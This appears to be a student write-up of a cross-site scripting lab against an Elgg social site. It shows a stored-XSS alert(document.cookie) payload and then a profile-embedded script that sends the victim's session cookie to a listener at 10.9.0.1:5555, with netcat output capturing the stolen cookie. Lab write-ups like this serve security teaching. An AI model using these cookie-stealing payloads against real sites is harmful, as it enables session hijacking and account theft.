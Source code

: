 # Task 2: Posting a Malicious Message to Display Cookies

To display the cookie we add the script `<script>alert(document.cookie);</script>` 

![display-cookie](./attachments/display-cookie.png)
As we can see that the `elgg` cookie is successfully alerted

# Task 3: Stealing Cookies from the Victim’s Machine

We will first start the netcat program to listen for incoming request

Then we will embed the script in Alice's profile
```javascript
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```

We will see the following output in the netcat

```
seed@weihong-System-Product-Name:~/Desktop/networksecurtiy_lab/xss$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.9.0.5 45548
GET /?c=Elgg=u9qemi36nq45d2dc8qvo3ivrot HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: curl/7.68.0
Accept: */*
```
